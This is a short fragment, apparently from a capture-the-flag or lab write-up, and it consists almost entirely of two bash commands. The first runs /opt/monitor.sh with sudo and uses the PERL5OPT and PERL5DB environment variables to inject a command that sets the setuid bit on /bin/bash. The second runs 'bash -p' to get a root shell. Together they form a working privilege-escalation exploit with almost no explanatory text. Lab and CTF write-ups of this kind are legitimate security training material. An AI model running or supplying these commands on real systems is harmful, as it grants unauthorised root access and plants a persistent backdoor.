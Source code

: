 ```bash
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
```

```bash
bash -p
```

![Alt text](image-45.png)



















